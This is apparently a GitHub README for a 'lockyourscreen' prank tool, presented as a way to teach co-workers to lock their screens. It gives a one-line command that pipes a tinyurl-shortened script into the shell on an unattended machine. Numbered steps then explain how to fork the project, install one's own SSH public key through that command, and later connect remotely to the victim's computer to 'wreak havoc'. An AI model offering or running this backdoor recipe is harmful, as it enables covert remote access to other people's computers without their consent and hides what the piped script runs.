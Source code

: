 lockyourscreen
==============

This is used to teach co-workers why they should always lock their screen

Run this for pwnage:

```
  curl -L http://tinyurl.com/davidhassel | sh
```



If you want to use this to teach infidels too lock their screen you have to make a fork.
Because for obvious reasons I wont be sharing the private key.

Steps to teaching infidels

1. Fork this project

2. Change setup.sh to curl https://raw.githubusercontent.com/#YOURGITHUBACCOUNT#/lockyourscreen/master/id_lockyourscreen.pub

3. create a tinyurl for https://raw.githubusercontent.com/#YOURGITHUBACCOUNT#/lockyourscreen/master/setup.sh

4. Run ```curl -L http://tinyurl.com/#YOURTINYURL# | sh```

5. Connect to their computer when they get back from whatever they where doing and wreak havoc!

